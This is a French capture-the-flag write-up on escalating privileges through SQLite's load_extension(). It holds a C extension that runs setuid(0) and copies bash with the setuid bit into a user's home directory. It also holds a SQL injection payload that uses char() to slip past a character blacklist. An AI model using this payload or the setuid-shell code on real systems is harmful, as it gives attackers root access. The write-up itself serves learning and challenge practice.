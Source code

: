 
d'après la doc sqlite on peut créer une extension et la load dans sqlite en compilant un code C avec la commande :
```bash
gcc -g -fPIC -shared YourCode.c -o YourCode.so
```

source : 
https://www.sqlite.org/loadext.html

pour la load on utilise la fonction `load_extention()` référencée ici : 
https://www.sqlite.org/lang_corefunc.html#load_extension

Dans la documentation, on a un exemple de ce a quoi ressemble une extention sqlite3 ainsi qu'une explication importante :

```c
/* TODO: Change the entry point name so that "extension" is replaced by
** text derived from the shared library filename as follows:  Copy every
** ASCII alphabetic character from the filename after the last "/" through
** the next following ".", converting each character to lowercase, and
** discarding the first three characters if they are "lib".
*/
int sqlite3_extension_init(){
	// main here
}
```


On va donc programmer notre propre extension et essayer d'obtenir un shell
on doit changer le nom de "sqlite3_extension_init" et remplacer "extension" par le nom de notre executable. Le code final copie bash dans le repertoire de tom en le rendant executable ressemble donc a ca :

```c
#include <unistd.h>
#include <stdlib.h>

int sqlite3_i_init(){
  setgid(0);
  setuid(0);
  system("/usr/bin/cp /bin/bash /home/tom && /usr/bin/chmod +s /home/tom/bash");
  return 0;
}
```

on compile avec la commande : 
`gcc -g -fPIC -shared injection.c -o i`

dans le contexte du challenge, on a le droit de mettre des parenthèses donc on peut utiliser la fonction char pour créer une string et ainsi utiliser des caractères blacklistés
`./i == char(46,47,105)`

payload final : 
`"+load_extension(char(46,47,105))+"`


